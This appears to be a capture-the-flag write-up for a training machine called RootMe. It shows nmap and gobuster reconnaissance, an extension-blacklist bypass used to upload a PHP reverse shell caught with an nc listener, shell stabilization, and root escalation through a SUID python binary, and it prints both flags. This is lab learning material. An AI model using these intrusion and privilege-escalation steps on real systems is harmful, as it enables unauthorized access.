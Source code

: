 ### RootMe


#### Deploy the machine

export IP: 10.10.43.146


#### Reconnaissance
Scan the machine, how many ports are open?

- port 44442 is not included since status is filtered

```
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.43.146 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 08:27 EDT
Nmap scan report for 10.10.43.146
Host is up (0.66s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
44442/tcp filtered coldfusion-auth
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]

```

What version of Apache is running?
- 2.4.29


What service is running on port 22?
- ssh


What is the hidden directory?
- /panel/

```


┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ gobuster dir -u "http://10.10.43.146:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/RootMe/gobuster_scan.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.43.146:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/18 08:31:57 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.43.146/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.43.146/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.43.146/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.43.146/panel/]  
Progress: 5864 / 220561 (2.66%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/18 08:39:06 Finished
===============================================================
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```

#### Getting a shell

Find a form to upload and get a reverse shell, and find the flag.


![[Pasted image 20220818090736.png]]

- created reverse_shell.phtml, since php is blacklisted and we also cannot bypass client side filter:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ ls
gobuster_scan.txt  nmap_results.txt  README.md  reverse_shell.jpg  reverse_shell.php  reverse_shell.phtml
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```

After uploading the payload, go to http://ip:80/uploads/reverse_shell.phtml to obtain a shell on nc listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                                  
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.43.146] 35740
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:07:17 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

- Once you got a shell, try to stabilize it first:

```

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ fg
www-data@rootme:/$ stty raw -echo
stty raw -echo
www-data@rootme:/$ fg
bash: fg: current: no such job
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$
```

- Then search for the file user.txt below:

```
www-data@rootme:/$ find / -type f -name user.txt
/var/www/user.txt

```

- user.txt is located at /var/www/
- try to cat /var/www/user.txt to get the first flag:

```
www-data@rootme:/$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$ ^C
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 


```

#### Privilege escalation

- Using the lectures from beginner path, SUID part, we can check for SUID using the following command:

```
www-data@rootme:/$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/pam_extrausers_chkpwd
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
===OMMITED====
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
-rwxr-sr-x 1 root mlocate 43088 Mar  1  2018 /usr/bin/mlocate

```


Search for files with SUID permission, which file is weird?

/usr/bin/python

Find a form to escalate your privileges.

Tried using shell on GTFObins, but to no luck:

```
python -c 'import os; os.system("/bin/sh")'
-data@rootme:/$ python -c 'import os; os.system("/bin/sh")'
$ whoami
www-data

```

- After multiple trial and error, i found the exploit for this machine:
  
  ![[Pasted image 20220818094330.png]]
Note: disregard the sudo (as we don't have privileges); command 1
then remove the ./ in the first part.

Result:

```
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/bin/sh: 8: ./python: not found
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'    
# whoami
root
# 

```

look for the flag then complete the room:

```
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 


```

END